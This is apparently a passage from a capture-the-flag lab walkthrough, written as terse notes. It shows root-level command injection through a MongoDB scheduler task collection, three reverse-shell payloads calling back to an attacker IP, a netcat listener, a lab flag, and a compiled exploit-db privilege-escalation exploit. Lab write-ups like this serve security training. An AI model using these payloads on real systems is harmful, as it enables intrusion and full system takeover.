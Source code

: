 So now let's try ssh with it and bingo

linenum

python -m SimpleHTTPServer 8000


/var/scheduler!!!! with root user

Connection to mongo 
```
mongo mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler

```

and add cmd

```
db.tasks.insert({"cmd": "sudo su && touch /home/mark/test.txt"});
db.tasks.insert({"cmd": "sudo usermod -a -G sudo mark"});
db.tasks.insert({"cmd": "sudo adduser mark sudo"})
db.tasks.find();

```
Let' s wait for 30sec


On attack machine
```bash
nc -lvnp 4444
```

then trying to forge reverse shell
db.tasks.insert({"cmd": "/bin/bash -i >& /dev/tcp/10.10.14.2/4444 0>&1"});
db.tasks.insert({"cmd": "nc -e /bin/sh 10.10.14.2 4444"});
db.tasks.insert({"cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4444 >/tmp/f"});

Yeaaaheee!!! 

user.txt
e1156acc3574e04b06908ecf76be91b1

![user flag](images/Screenshot_2021-04-16_02-35-33-flag.png)

Using exploit:
 https://www.exploit-db.com/exploits/44298/

vi /tmp/exploit.c 
gcc exploit.c -o exploit
